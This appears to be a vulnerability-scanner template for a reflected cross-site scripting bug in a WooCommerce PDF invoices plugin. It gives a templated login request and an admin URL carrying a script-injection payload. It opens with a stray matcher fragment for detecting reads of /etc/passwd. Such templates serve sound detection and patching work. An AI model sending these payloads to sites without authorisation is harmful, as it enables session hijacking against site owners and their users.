 **Type - regex**
- regex
    1. root:[x*]:0:0

**Type - status**
- status
    1. 200

---
# WordPress WooCommerce PDF Invoices & Packing Slips \<2.15.0 - Cross-Site Scripting
## Description
- WordPress WooCommerce PDF Invoices & Packing Slips 2.15.0 does not escape some URLs before outputting them in attributes, leading to reflected cross-site scripting.
- severity - medium
- tags - xss,wp,wordpress,woocommerce,authenticated,wpscan,wp-plugin
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/admin.php?page=wpo_wcpdf_options_page&tab=documents&section=invoice&"><script>alert(document.domain)</script> HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - word**
- part - body
- words
    1. >\<script>alert(document.domain)\</script>
    2. WooCommerce PDF Invoices
- condition - and

**Type - word**
- part - header
- words
    1. text/html
